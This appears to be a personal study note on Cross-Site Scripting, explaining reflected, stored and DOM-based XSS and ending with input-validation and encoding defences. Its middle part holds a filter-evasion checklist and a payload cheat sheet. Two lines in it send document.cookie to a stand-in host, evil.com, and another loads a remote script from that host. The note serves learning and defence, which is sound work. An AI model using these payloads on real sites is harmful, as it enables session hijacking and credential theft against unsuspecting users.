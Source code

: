 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```

Cross-Site Scripting is a type of injection where JavaScript code can be injected into a website. A XSS attack is where an attacker has embedded malicious code, often in the form of a browser-side script that is then sent to an unsuspecting user when they request the webpage.

These attacks can occur anywhere a web application uses input from a user within the output it generates without validating or encoding it. The malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site. These scripts can even rewrite the content of the HTML page.

There are 3 types of XSS attacks:
- [Reflective XSS](#reflective-xss) - Injected code is reflected back to a user by the web application
- [Stored XSS](#stored-xss) - The injected code is stored on the webserver and is requested by the user
- [DOM-Based XSS](#dom-based-xss) - The injected code manipulates the client-side DOM, resulting in the execution of code on the victim's browser. 

## Reflective XSS
Reflected attacks are those where the injected script is reflected off the web server, such as in an error message, search result, or any other response that includes some or all of the input sent to the server as part of the request.

When a user is tricked into clicking on a malicious link, submitting a specially crafted form, or even just browsing to a malicious site, the injected code travels to the vulnerable website, which reflects the attack back to the user’s browser. The browser then executes this as it appears to have come from a 'Trusted' server.

This can lead to various security issue, such as stealing user information (eg. credentials or tokens) or performing unauthorised actions on behalf of a user.

These attacks are often initiated by creating malicious links or forms that exploit vulnerabilities in the target application.

Sometimes referred to as Non-Persistent or Type-II XSS.

## Stored XSS
Stored attacks are those where the injected script is permanently stored on the target server, such as in a database, comment section, message forum etc. The victim then retries the script from the server when it requests the stored information.

Unlike reflective XSS, the injected code is not reflected back immediately but rather stored on the target server and delivered to other users later. This makes stored XSS attacks particularly dangerous, as the malicious code affects multiple users and can lead to unauthorized access, data theft, or even complete website compromise.

Sometimes referred to a Persistent or Type-II XSS.

## DOM-Based XSS
This attack occurs when an attacker injects and manipulates malicious code into the Document Object Model (DOM) of a webpage. In DOM-Based XSS attacks the malicious injected code is usually executed by JavaScript directly in the victim's browser, without being sent to the server.

The vulnerable webpage often includes JavaScript that reads data from the URL or user input and then dynamically updates the DOM, but fails to properly sanitize or validate the input, allowing injected code to be executed.

## Impacts of XSS
- Impersonating or masquerading as the victim user
- Hijacking a user's session
- Perform unauthorized actions on behalf of the user
- Steal sensitive information
- Perform phishing attacks
- Capture user credentials
- Capture keystrokes
- Deface the website / Edit its content
- Inject trojan functionality into the website

## Exploiting XSS
When exploiting an XSS vulnerability, you need to understand how the application behaves towards specific payloads. The following checklist can be used before exploiting an XSS vulnerability:
- Find the backlisted/filtered characters. XSS locators can be used for this: `'';! - "<XSS>=&{()}`
- Observe what tags are blocked by Web Application Firewall (WAF) and which keywords are allowed (`iframe`, `img`, `body` etc.)
- Try character encoding ([URL encoding](https://www.w3schools.com/tags/ref_urlencode.ASP), [Double URL encoding](https://owasp.org/www-community/Double_Encoding), UTF-8 Unicode encoding, Long UTF-8 Unicode encoding, Hex encoding etc.)
- Try [XSS using HTML quote encapsulation](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#xss-using-html-quote-encapsulation)
- Try [URL string evasion](https://docs.trellix.com/bundle/network-security-platform-application-notes/page/GUID-CCB698B2-851B-48DE-8E1F-93968ED36C2E.html)
- Create the payload list according to the allowed keywords
- Brute-force the application with the XSS payload list you just created

> Note: Double URL encoding can be tried since the first decoding process is performed by HTTP protocol and the resultant encoded URL will bypass the XSS filter.

### XSS Cheatsheet
A very useful OWASP XSS [cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html).
Another useful [cheatsheet repo & other links](https://github.com/RenwaX23/XSS-Payloads/tree/master)

#### XSS Locators
```HTML
'';!--"<XSS>=&{()}
```

#### Classic Payloads
```HTML
<svg/onload=alert(1)>
<script>alert(1)</script>
<script    >alert(1)</script>
<ScRipT>alert(1)</scRipT>
<%00script>alert(1)</script>
<script>al%00ert(1)</script>
```

#### HTML Tags
```HTML
<img/src=x a='' onerror=alert(1)>
<IMG """><SCRIPT>alert(1)</SCRIPT>">
<img src=`x`onerror=alert(1)>
<img src='/' onerror='alert("kalisa")'>
<IMG SRC=# onmouseover="alert('xss')">
<IMG SRC= onmouseover="alert('xss')">
<IMG onmouseover="alert('xss')">
<BODY ONLOAD=alert('XSS')>
<INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">
<SCRIPT SRC=http:/evil.com/xss.js?< B >
"><XSS<test accesskey=x onclick=alert(1)//test
<svg><discard onbegin=alert(1)>
<script>image = new Image(); image.src="https://evil.com/?c="+document.cookie;</script>
<script>image = new Image(); image.src="http://"+document.cookie+"evil.com/";</script>
```

The `javascript:alert(1);` can be injected to run in-line java (eg. in a URL)

### Useful Example Situations
#### Bypass Angle Bracket Filter
In a Reflective XSS where the `<` & `>` are both blacklisted/encoded. You can still inject code if the user input is injected within a tag already. This relies on the `"` not being escaped as `&quot`.

```HTML
" onmouseover="alert(1)
```

Would result in something like a search box like:
```HTML
<input type=text placeholder='Search the blog...' name=search value="{{ user.input }}">
```

Being turned into:
```HTML
<input type=text placeholder='Search the blog...' name=search value="" onmouseover="alert(1)">
```

#### String Subtraction Injection
If a variable is set of the user input eg.
```js
var userInput = '';
```

If you then take a string and subtract a function from it, it will in turn run the function. Eg.
```js
var userInput = ''-alert(1)-'';
```

So the payload would be `'-alert(1)-'`

## Defending from XSS
### Input Validation
#### Allow Lists - Recommended
- These lists reduce the input to a known attack surface
- Most inputs can be limited to alphanumeric to prevent XSS
- Special characters can be allowed on an exception basis

#### Deny Lists - No Recommended
- Only covers the known methods, could be exploited by creative attackers still

#### Client Side input validation - Not Recommended
- Can easily be bypassed by sending requests directly to the server
- Only useful for application usability

### Proven Validation and Encoding Functionality
- Protect both the input through validation and output through encoding - "defence in depth" principle
- Use proven, reputable libraries to protect the application
  - Its easy to make mistakes or not cover some edge cases when you write the functionality yourself
- Utilise a framework that has a central set of functionality that validates and encodes data
  - Protects you from missing some areas in your code and leaving those places exposed